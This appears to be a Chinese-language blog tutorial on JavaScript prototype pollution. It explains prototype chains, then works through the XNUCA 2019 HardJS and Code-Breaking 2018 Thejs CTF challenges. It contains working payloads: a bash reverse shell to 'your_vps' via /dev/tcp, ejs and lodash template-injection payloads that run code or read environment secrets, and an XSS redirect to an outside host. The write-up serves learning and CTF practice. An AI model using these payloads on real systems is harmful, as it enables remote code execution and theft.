

简单学习一波JS原型链污染，并从两道CTF题目来深入理解攻击原理
JS中的原型和原型链
原型
1 | function Foo(name,age){ |
Foo函数的内容，就是Foo类的构造函数，this.name和this.age就是Foo类的一个属性
一个类中必然有一个方法，类似属性，我们可以将方法定义在构造函数内部：
1 | function Foo(name,age){ |
但这样写的话，我们每次构造一个Foo对象时都会执行一次this.show = function()，这个show方法实际上是绑定在对象上的，而不是绑定在类中
我希望在创建类Foo只创建一次show方法，这时候就需要使用原型prototype了：
1 | function Foo(name,age){ |
我们可以认为原型prototype是类Foo的一个属性，而所有用Foo类实例化的对象，都将拥有这个属性中的所有内容，包括变量和方法。比如上述代码的foo对象，其天生就具有foo.show()方法
我们可以通过Foo.prototype来访问Foo类的原型，但Foo实例化出来的对象，是不能通过prototype访问原型的。这时候，就需要__proto__
一个Foo类实例化出的foo对象，可以通过foo.__proto__来访问Foo类的原型，也就是说：
1 | foo.__proto__ == Foo.prototype |

下面看一段示例代码：
1 | function Foo(name,age){ |
运行：
1 | $ node foo.js |
原型链
所有类对象在实例化的时候将会拥有prototype中的属性和方法，这个特性被用来实现JS中的继承机制。
示例代码：
1 | var util = require('util'); |
输出：
1 | $ node class.js |
用一张图表示这些类之间的关系
因为对象的__proto__属性指向构造函数的prototype属性，并且当访问对象不存在的属性时，会从它的构造函数的prototype去寻找
首先，objSub.__proto__ == Sub.prototype，如果我们尝试访问objSub.objFunc()，由于Sub类不存在该方法，于是从Sub.prototype寻找，Sub.prototype也没有该方法。由于util.inherits(Sub,Base)，Sub继承了Base，于是从Base.prototype寻找，也没有。最后找到了Object.prototype有该方法。该过程就形成了一条JS原型链。
JS原型链污染
通过前面的初步了解，我们已经知道foo.__proto__ => Foo.prototype，那么，如果我们修改了foo.__proto__中的值，是不是就能修改Foo类呢
1 | // foo是一个简单的JavaScript对象 |
我们通过修改了foo的原型foo.__proto__.bar = 2，而foo是一个Object类的实例，所以实际上是修改了Object这个类，给这个类增加了一个属性bar，值为2
而我们后面又用Object类创建了一个zoo对象{}，虽然创建时为空，但是因为对象有类Object中的所有属性和方法，所以自然有bar = 2这个属性了
再看如下示例代码：
1 | function Foo(){ |
运行：
1 | $ node test.js |
可以Foo类中本来没有bar这个属性，而我们通过修改foo.__proto__即Foo得原型来使Foo类多了一个bar属性，值为2
那么，在一个应用中，如果攻击者控制并修改了一个对象的原型，那么可以影响所有和这个对象来自同一个类、父祖类，这个攻击方式就是原型链污染
原型链污染触发示例
最常见的就是通过数组键名来赋值的情况，例如如下的merge函数：
1 | function merge(target, source) { |
在合并的过程中，存在target[key] = source[key]进行键值赋值的情况，这里的key如果是__proto__，那么就可能存在原型链污染的情况，用如下代码测试：
1 | let o1 = {}; |
运行得到：
1 | $ node test.js |
可以看到o1.a=1，o1.b=2，说明已经成功合并o1和o2，但是o3.b = null，并没有造成原型链污染。原因是我们在定义o2 = {a:1,"__proto__":{b:2}}时，就已经给o2.__proto__即o2的原型赋值{b:2}了，所以后面数组的键名传入的就是a和b。只是单纯的将o2的键复制给o1，并没有对原型链进行污染
所以，需要把__proto被当作是键名，使用JSON.parse进行JSON解析：
1 | JSON.parse('{"a":1,"__proto__":{"b":2}}') |
成功污染原型链，这是因为JSON解析的情况下，__proto__会被认为是一个真正的“键名”，而不代表“原型”，所以在遍历o2的时候会存在这个键。
Nodejs命令执行
既然我们要污染原型链，最终的目的肯定是RCE，那就离不开命令执行，常见的命令执行就是调用child_process模块来执行系统命令：
1 | global.process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/your_vps/8888 0>&1"') |
这两条常见的代码执行后都可以将shell反弹到我们的vps上
xnuca 2019 HardJS
源码：https://github.com/NeSE-Team/OurChallenges/tree/master/XNUCA2019Qualifier/Web/hardjs
框架分析
首先，这是一个nodejs的网站。
根目录有两个显眼的server.js，robots.py
robots.py中告诉我们，flag为环境变量，并作为admin用户的密码：
1 | username = "admin" |
从package.json中可以看到，程序的入口点在server.js：
1 | { |
那么，就从该文件开始审计起，看开头就知道，使用了express框架，模板渲染引擎使用了ejs
然后就是各个功能的路由：
/首页/static静态文件/sandbox显示用户HTML数据用的沙盒/login登陆/register注册/getjson接口 获取数据库中保存的数据/add用户添加数据的接口
除了/static，/login，/register以外，每个路由在访问时都会经过auth函数进行身份验证：
1 | function auth(req,res,next){ |
另外开头还有一句代码：
1 | app.use(bodyParser.urlencoded({extended: true})).use(bodyParser.json()) |
说明我们可以json格式传输参数到服务器端，修改Content-Type:application/json
后端RCE
通过前面的简单分析，我们知道该项目使用了ejs作为模板引擎，由于该模板引擎中通常由eval等操作用于解析，因此我们去审计源码ejs.js中可能进行原型链污染的地方
在构造函数Template中，存在非常多我们可能可以利用的变量：
1 | function Template(text, opts) { |
可以看到，这些变量来自于对象opt，并且这些变量一开始在Object中都为空。所以我们就可以通过对这些变量逐一跟踪，看看哪个拼接到了模板中，那么我们就可以通过污染这些变量，渲染过程由于存在eval，从而进行RCE
例如我们可以跟踪一条：
1 | options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML; |
然后跟踪到了Template的原型中的方法：compile：
1 | compile: function () { |
此时opts.escapeFunction赋值给了变量escapeFn，继续跟踪escapeFn，同样在compile找到了这一段代码：
1 | if (opts.client) { |
可以看到如果opts.client存在，则将escapeFn拼接到src中
然后根据拼接的内容，生成动态函数：
1 | else { |
所以，我们如果可以控制opts.escapeFunction的内容为恶意代码，即可通过ejs模板渲染进行RCE
构造恶意代码如下：
1 | {"constructor":{"prototype":{"client":true,"escapeFunction":"1; return process.env.FLAG"}}} |
然后通过/add将json格式的payload传递给服务器：
1 | {"type":"notice","content":{"constructor":{"prototype":{"client":true,"escapeFunction":"1; return process.env.FLAG"}}}} |
同样的payload打6次，6次的原因是记录数大于5才会执行合并，看/get路由中的代码就明白了：
1 | else if(dataList[0].count > 5) { // if len > 5 , merge all and update mysql |
然后随便访问一个带有app.render()渲染代码的路由，进行模板渲染即可getflag
我们再跟踪一下另外一个变量outputFuncationName：
1 | options.outputFunctionName = opts.outputFunctionName; |
还是跟踪到了compile：
1 | if (!this.source) { |
如果this.source不存在，则执行prepended += ' var ' + opts.outputFunctionName + ' = __append;' + '\n';，将opts.outputFunctionName拼接到变量prepended中，然后末尾又将prepended拼接到this.source
继续跟踪this.source：
1 | if (opts.compileDebug) { |
如果opts.compileDebug不存在，则将this.source赋值给src
最后还是带入了fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);动态函数
同样构造payload：
1 | {"type":"notice","content":{"constructor":{"prototype":{"outputFunctionName":"a=1;return process.env.FLAG//"}}}} |
打6次然后访问/触发原型链污染，即可getflag
前端XSS
还有一种是利用app.js中的代码：
1 | for(var i=0 ;i<datas.length; i++){ |
Jquery原型链污染漏洞进行XSS，官方payload：
1 | {"type":"test","content":{"__proto__": {"logger": "<script>window.location='http://wonderkun.cc/hack.html'</script>"}}} |
这里还不是很理解原理，等理解再补上吧
Code-Breaking 2018 Thejs
源码：https://github.com/phith0n/code-breaking/tree/master/2018/thejs
源码很简单，只有一个server.js
1 | // ... |
使用lodash来实现ejs模板引擎渲染
lodash是为了弥补JavaScript原生函数功能不足而提供的一个辅助功能集，其中包含字符串、数组、对象等操作。这个Web应用中，使用了lodash提供的两个工具：
lodash.template一个简单的模板引擎lodash.merge函数或对象的合并
看到merge就可以想到之前分析的原型链污染的触发点，因为这是一个express框架，支持Json直接传输数据，并且接收的参数为req.body，所以我们可以直接构造payload如下：
1 | {"constructor":{"prototype":{"":""}}} |
传入后通过lodash.merge进行原型链污染，修改Object的属性，然后通过lodash.template渲染到模板，所以现在我们只需要找到可以触发RCE的点，目光就放在lodash.template的后端代码：https://github.com/lodash/lodash/blob/4.17.4-npm/template.js#L165
1 | // Use a sourceURL for easier debugging. |
可以发现options对象的sourceURL属性，被直接传入到了Function中，那么，我们就可以污染Object.sourceURL来改变options.sourceURL，然后传入到函数中进行代码执行
payload如下：
1 | {"constructor":{"prototype":{"sourceURL":"\r\nreturn e =>{return global.process.mainModule.require('child_process').execSync('id');}"}}} |
总结
关于JS原型和原型链可以总结为以下五点：
- 所有的引用类型（数组、函数、对象）可以自由扩展属性（除null以外）
- 所有的引用类型都有一个
__proto__属性（也叫隐式属性，它是一个普通的对象） - 所有的函数都有一个
prototype属性，（也叫显式属性，它也是一个普通的对象） - 所有引用类型，它的
__proto__属性指向它的构造函数的prototype属性 - 当试图得到一个对象属性时，如果这个对象本身不存在这个属性，会从它的构造函数的
prototype属性中去寻找
原型链污染的步骤总结如下：
Object中不存在或初始值为null的属性，这个属性就可能成为污染的对象- 找到可以修改
__proto__的点，即原型链污染的触发点，最常见的就是实现merge数组键名合并功能的函数，例如lodash.merge和ejs引擎的模板渲染 - 污染的最终目的就是让污染的代码执行RCE，例如ejs引擎具有
eval的操作，或者lodash.template会将options.sourceURL作为参数传入函数执行